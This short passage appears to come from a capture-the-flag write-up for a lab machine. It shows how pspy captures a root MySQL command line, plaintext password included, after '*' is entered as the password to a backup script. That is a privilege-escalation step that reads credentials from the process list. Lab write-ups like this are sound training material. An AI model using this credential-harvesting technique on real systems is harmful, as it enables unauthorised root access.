 Use pspy to monitor the processes when attempting to enter the password `*` while executing `/opt/scripts/mysql-backup.sh` file.

```bash
joshua@codify:/dev/shm$ ./pspy64
...
- execute /opt/scripts/mysql-backup.sh and enter * as password value -
...
CMD: UID=0     PID=3758   | /usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 -e SHOW DATABASES; 
```

